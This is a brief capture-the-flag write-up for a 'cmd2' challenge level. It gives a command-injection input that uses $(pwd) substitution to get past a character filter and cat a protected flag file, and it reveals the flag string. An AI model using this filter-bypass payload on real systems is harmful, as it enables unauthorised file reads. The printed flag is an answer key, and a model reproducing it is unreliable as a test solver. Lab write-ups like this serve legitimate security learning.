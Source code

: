 ```yaml
---
layout: default
title: cmd2
---
```




this is more complicated level.
here we use this input: 
```
./cmd2 "cd ..; cd ..; pwd; \$(pwd)bin\$(pwd)cat \$(pwd)home\$(pwd)cmd2\$(pwd)fl*"
```

first, we cd into `/`.
then, we execute this command: `/bin/cat /home/cmd2/fl*`, by taking each time our current directory with `pwd`, which gives us `/`.

by this way we can build our command.

![image](./images/cmd2.png)

**Flag:** ***`FuN_w1th_5h3ll_v4riabl3s_haha`***

